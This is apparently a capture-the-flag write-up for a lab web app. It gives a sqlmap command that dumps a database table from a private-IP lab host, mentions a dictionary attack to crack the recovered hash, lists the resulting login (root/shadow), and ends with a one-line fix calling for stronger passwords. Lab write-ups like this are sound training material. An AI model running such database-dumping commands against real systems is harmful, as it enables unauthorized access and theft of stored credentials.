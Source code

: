 # 11_Brute_force

We can brute force login by allowing / using simple, common passwords

## Method & How to exploit

sqlmap -u "http://192.168.1.75/index.php?page=member&id=5&Submit=Submit#" --dump -D Member_Brute_Force -T db_default
and use dictionary attack can use custom dictionary file if you want and decrypt the countersign of getTheFlag

Go to ?page=signin  
username: root
password: shadow

## Solution
When registering users should be only be allowed to make more complicated alphnumeric password